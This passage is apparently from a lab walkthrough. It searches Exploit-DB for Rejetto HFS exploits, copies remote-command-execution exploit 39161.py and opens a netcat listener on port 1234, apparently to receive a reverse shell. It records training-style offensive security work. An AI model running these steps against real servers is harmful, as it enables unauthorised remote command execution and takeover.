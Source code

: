 ```
root@attackdefense:~# searchsploit rejetto
--------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                           |  Path
                                                                                                         | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------------------------- ----------------------------------------
Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)                                   | exploits/windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 1.5/2.x - Multiple Vulnerabilities                                        | exploits/windows/remote/31056.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                           | exploits/multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                      | exploits/windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                      | exploits/windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                 | exploits/windows/webapps/34852.txt
--------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
root@attackdefense:~# pwd
/root
root@attackdefense:~# searchsploit -m 39161
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

Copied to: /root/39161.py


root@attackdefense:~# ls
39161.py  Desktop  thinclient_drives
```

Tab1 : exploit

Tab2 : Netcat listener

Tab3 : Host Netcat executable

Tab2

```
root@attackdefense:~# nc -nvlp 1234 
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```
